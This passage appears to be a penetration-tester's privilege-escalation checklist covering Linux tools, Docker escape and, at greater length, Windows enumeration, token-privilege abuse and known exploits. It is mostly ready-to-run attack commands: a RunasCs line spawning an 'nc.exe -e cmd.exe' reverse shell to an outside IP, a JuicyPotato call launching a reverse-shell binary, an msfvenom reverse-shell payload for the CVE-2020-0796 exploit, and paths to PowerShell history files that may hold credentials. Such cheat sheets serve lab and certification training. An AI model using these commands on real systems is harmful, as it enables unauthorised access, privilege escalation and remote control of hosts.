 * [ ] Pspy: `https://github.com/DominicBreuker/pspy`
* [ ] Linpeas

#### Docker Escape

* [ ] Sirol (find hosts disks with `fdisk -l` and mount or abuse `gluster` for privesc)
* [ ] Deployer (abuse `Dockerfile` instructions with `docker build`)

### WINDOWS

#### Useful commands

* [ ] OS info: `systeminfo`
* [ ] Hidden files: `attrib`
* [ ] File/Directory properties (similar ls -la): `Get-Acl file | fl`
* [ ] Restart `shutdown.exe -r -f -t 1` (may take 5 minutes to fully reset)
* [ ] Run as another user: `./RunasCs_net4.exe svc_mssql trustno1 'c:\temp\nc.exe -e cmd.exe 192.168.49.155 4444'` (must be run in powershell, download: https://github.com/antonioCoco/RunasCs/releases/tag/1.3)
* [ ] Check scheduled tasks: `schtasks /query /fo list /v | findstr "apache"` (similar cat /etc/crontab)
* [ ] Access check: `.\accesschk.exe /accepteula -uwdq "C:\Program Files"`
* [ ] Change file permissions: `cacls <file> /e /p <user>:F` (similar chmod 777)

#### Privileges

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens

* [ ] Privileges: `whoami /priv`
* [ ] SeManageVolumePrivilege: `SeManageVolumeExploit.exe` https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public - then you may run WerTrigger for a root shell: https://github.com/sailay1996/WerTrigger
* [ ] SeImpersonatePrivilege: `juicypotato.exe -t * -l 1338 -c {9E175B6D-F52A-11D8-B9A5-505054503030} -p cmd.exe -a "/c c:/users/nathan/desktop/Windows_10_pro/revshell.exe"`
* [ ] SeBackupPrivilege: `Import-Module .\Acl-FullControl.ps1; Acl-FullControl.ps1 -user <domain>\<low-priv-user> -path c:\users\administrator` - https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1

#### Common checks

* [ ] Look at installed KBs: `wmic qfe list`
  * [ ] KB4540673: https://github.com/danigargu/CVE-2020-0796 (replace line 204 with shellcode from `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.118.3 LPORT=8081 -f dll -f csharp`)
* [ ] Backup folder `C:\backups`
* [ ] Console history `C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
* [ ] Installed software `C:\Program and Files`
* [ ] Check Sticky Notes: `%LocalAppData%\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState` (or similar path)

#### Tools

* [ ] PrivescCheck.ps1 `Invoke-PrivescCheck -Extended`
* [ ] PowerUp.ps1 `Invoke-AllChecks`
* [ ] WinPeas
